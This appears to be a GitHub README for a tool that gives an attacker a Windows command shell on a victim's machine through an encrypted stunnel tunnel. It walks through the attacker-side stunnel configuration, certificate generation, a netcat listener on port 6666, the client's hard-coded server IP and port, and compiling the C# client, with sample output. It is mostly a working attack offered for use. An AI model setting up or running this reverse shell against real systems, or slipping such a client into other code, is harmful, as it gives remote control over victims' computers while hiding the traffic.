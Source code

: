 # STunnell_RevShell
A Reverse shell through Stunnel.
## Architecture
- Client Net4.8 C#
- Server Stunnell4

## Scenario:
Client is the victim, that executes the connection to the server (attacker) that serves stunnell.
Server is the attacker running stunnel4. Follows the configuration:
	
	cat /etc/stunnel/stunnel.conf 
	[nc]
	client = no
	accept = 9999
	connect = 127.0.0.1:6666
	cert = /etc/stunnel/stunnel.pem
	
	 
Here we set stunnel listening for incoming connection on port 9999. This connection is encrypted, then forwards the stream  to port 6666 where we will have nc listening. This flow is not encrypted of course.

## Create the certificate on the server
	
	openssl genrsa -out key.pem 2048
	openssl req -new -x509 -key key.pem -out cert.pem -days 1095
	cat key.pem cert.pem > /etc/stunnel/stunnel.pem
 
Start stunnell

	service stunnel4 start
	
Check if works:

	sudo service stunnel4 status
	● stunnel4.service - LSB: Start or stop stunnel 4.x (TLS tunnel for network daemons)
	     Loaded: loaded (/etc/init.d/stunnel4; generated)
	     Active: active (running) since Tue 2024-05-21 22:11:47 CEST; 5s ago
	       Docs: man:systemd-sysv-generator(8)
	    Process: 133285 ExecStart=/etc/init.d/stunnel4 start (code=exited, status=0/SUCCESS)
	      Tasks: 3 (limit: 9398)
	     Memory: 4.2M (peak: 4.6M)
	        CPU: 241ms
     	CGroup: /system.slice/stunnel4.service
             └─133301 /usr/bin/stunnel4 /etc/stunnel/stunnel.conf


Verify stunnell port is listening:	

    netstat -tulp | grep 9999
	  Active Internet connections (only servers)
	  Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	  tcp        0      0 0.0.0.0:9999            0.0.0.0:*               LISTEN      19338/stunnel4
	  ...
	
Then we can lunch nc to listen on port 6666 as configurated on stunnel

	nc -lvp 6666
	
## Configure the client
Set the Stunnell server and port around line 50:

	//CONFIG THIS: point to the Stunell server
        string IP = "192.168.1.2";
        int PORT = 9999;
## TLS configuration
The client use TLS 1.3 (teseted on windows 11) to connect to the server:

	sslStream.AuthenticateAsClient("host.local", 
		new X509CertificateCollection(), 
		SslProtocols.Tls13, 
		false);

## Compile the client
Youn can compile the client as follows:

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe STunnel_RevShell.cs
	
	
Executing Program.exe we should read the following on the shell

	ver 1.0 Coded by GuerraIT
	ver 1.1 Modified by Zinzloun (support TLS 1.3)
	
	Using the following connection 192.168.1.7:9999
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxxxx ......
The you shoud get a CMD shell on the attacker

## Exception: missing server connection
### nc is not listening on the server
Since the client app can connect to Stunnell but not to nc, it will continue to send requests to the server. You will see on the console the certificate info looping:
	
 	...
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
 	Certificate revocation list checked: False
	Remote cert was issued to CN=xxxx....
	...
At soon as the nc listener is started on the server the client will connect immediately, stopping to print the certificate information; you will get the shell.

## Stunnell service is not reachable
In this case the client will keep to try to connect to Stunnel. You won't get the certificate information printed in this case, only the following line:

	...
	Using the following connection 192.168.1.7:9999
As soon as the client can connect to Stunnel the app will switch to the previous state (looping certificate info printend on the screen). If nc listener is also started on the server you will get a shell.


## Trouble shooting on Kali
If you get the following error re-starting stunnel:

	sudo service stunnel4 status
	...
 	Active: failed (Result: exit-code) since Tue 2024-05-21 22:04:54 CEST; 2min 21s ago
  	stunnel4.service: Failed with result 'exit-code'.
	stunnel4.service: Unit process 52254 (stunnel4) remains running after unit stopped.

It seems a bug on Debian related to the PID file, to solve try to manually kill the related process 

 	sudo kill -9 52254

Then restart the service

		

